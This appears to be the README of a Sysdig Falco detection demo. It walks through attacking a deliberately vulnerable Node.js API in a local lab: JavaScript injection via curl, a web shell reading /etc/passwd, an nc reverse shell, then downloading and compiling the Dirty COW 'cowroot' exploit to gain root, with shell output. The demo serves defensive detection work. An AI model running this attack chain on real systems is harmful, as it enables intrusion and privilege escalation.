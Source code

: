 # falco-demo
Sysdig falco demo

run the scenario:
```
vagrant up
vagrant ssh
cd /vagrant/nodejs/bad-rest-api
docker-compose up
```

discover vulnerability:
`curl -X POST --data year="2016" http://localhost:8080/api/days-from-year/`
`curl -X POST --data year="res.write('foobar')" http://localhost:8080/api/days-from-year/`

try1:
`curl -X POST --data "@shell.js" http://localhost:8080/api/days-from-year/`
`curl "http://localhost:8000/?cmd=cat%20/etc/passwd"`

try2:
`nc -lvp 9999`
`curl -X POST --data "@rshell.js" http://localhost:8080/api/days-from-year/`

```
Listening on [0.0.0.0] (family 0, port 9999)
Connection from [172.18.0.3] port 9999 [tcp/*] accepted (family 2, sport 43398)
```
id
uid=999(node) gid=999(node) groups=999(node)
pwd
/home/node
curl https://gist.githubusercontent.com/joshuaskorich/86c90e12436c873e4a06bd64b461cc43/raw/71db45f5b97c8e4ed00f1193e578a77f90dabbdd/cowroot.c > cowroot.c
gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:107:17: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast
         lseek(f,map,SEEK_SET);
                 ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected '__off_t' but argument is of type 'void *'
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
./cowroot
/bin/sh: 1: cannot create /proc/sys/vm/dirty_writeback_centisecs: Read-only file system
id
uid=0(root) gid=999(node) groups=999(node)
```
note: for increased stability run this in the VM before running the exploit, Docker mounts /proc/sys in ro so the exploit tends to freeze the VM.
```
sudo -s
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```


